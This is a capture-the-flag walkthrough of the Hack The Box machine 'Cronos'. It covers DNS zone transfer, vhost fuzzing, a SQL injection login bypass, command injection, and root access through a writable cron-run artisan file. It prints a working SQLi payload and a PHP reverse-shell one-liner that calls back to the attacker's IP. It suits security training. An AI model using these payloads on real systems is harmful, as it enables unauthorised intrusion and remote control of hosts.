 ```yaml
---
title: "[HTB] Machine: Cronos"
description: "[HTB] Machine: Cronos"
date: 2023-09-01
menu:
  sidebar:
    name: "[HTB] Machine: Cronos"
    identifier: htb-machine-Cronos
    parent: htb-machines-linux
    weight: 10
hero: images/cronos.png
tags: ["HTB", "dns", "nslookup", "zone-transfer", "dig", "vhosts", "laravel", "sqli", "command-injection", "linpeas", "cron", "php", "mysql"]
---
```


# Cronos
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.13 -T4                            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-01 14:23 BST
Stats: 0:00:02 elapsed; 0 hosts completed (0 up), 0 undergoing Host Discovery
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Warning: 10.10.10.13 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.13 (10.10.10.13)
Host is up (0.15s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
53/tcp    open     domain
80/tcp    open     http

```
```
└─$ nmap -Pn -p22,53,80 -sC -sV 10.10.10.13 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-01 15:04 BST
Nmap scan report for 10.10.10.13 (10.10.10.13)
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
- Web server

![](./images/1.png)

- `dns`
```
└─$ nslookup -q=ptr 10.10.10.13 10.10.10.13    
Server:         10.10.10.13
Address:        10.10.10.13#53

13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```
```
└─$ dig axfr @10.10.10.13 cronos.htb       

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 220 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Fri Sep 01 15:14:05 BST 2023
;; XFR size: 7 records (messages 1, bytes 203)
```
- `vhosts`
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://cronos.htb/' -H 'Host: FUZZ.cronos.htb' -fs 11439  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cronos.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.cronos.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 11439
________________________________________________

[Status: 200, Size: 2319, Words: 990, Lines: 86, Duration: 309ms]
    * FUZZ: www

[Status: 200, Size: 1547, Words: 525, Lines: 57, Duration: 5057ms]
    * FUZZ: admin

```

## Foothold/User
- `www.cronos.htb`

![](./images/2.png)

- `admin.cronos.htb`

![](./images/3.png)

- Default `admin:admin` creds don't work

![](./images/4.png)

- Tried basic `sqli` payloads
  - `admin' or 1-- -` didn't work
  - `' or 1-- 1` works

![](./images/5.png)

![](./images/7.png)

![](./images/6.png)

- Okay, right away we see possible `command injection`

![](./images/8.png)

- Sending modified request from `burp` with `command injection` works

![](./images/9.png)

- Now we need to get reverse shell

![](./images/10.png)

## Root
- Tried password from `config.php` in web root, but didn't work
```
www-data@cronos:/var/www/admin$ grep -inrl "passw" .
./config.php
./index.php
```
```
www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```
```
www-data@cronos:/var/www/admin$ su -
Password: 
su: Authentication failure
www-data@cronos:/var/www/admin$ 
```

- The name of the box is `cronos` maybe, it's related to cronjobs
  - So we might need to check there

![](./images/11.png)

- Looks like the job is running every minute as `root`
  - Let's modify `artisan` 
    - I used https://www.revshells.com/
    - `$sock=fsockopen("10.10.16.4",6666);exec("/bin/bash <&3 >&3 2>&3");`

![](./images/12.png)

- And we receive connection back

![](./images/13.png)
